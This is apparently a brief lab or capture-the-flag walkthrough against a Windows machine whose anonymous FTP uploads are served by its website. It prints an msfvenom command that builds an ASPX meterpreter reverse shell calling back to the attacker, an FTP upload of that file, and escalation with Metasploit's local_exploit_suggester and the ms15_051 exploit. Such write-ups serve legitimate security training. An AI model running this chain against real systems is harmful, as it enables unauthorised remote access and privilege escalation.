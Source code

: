 # The machine has ftp service that has anonymous login, on where users can upload file that reflects on the site

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```

> Created a reverse shell payload using msfvenom and spun up a multi/handler reverse shell listener on msfconsole

```
ftp> put reverse.aspx
```


> uploaded it to the ftp server using put, gained shell, used the post exploitation module "local_exploit_suggester" then used the ms15_051 exploit




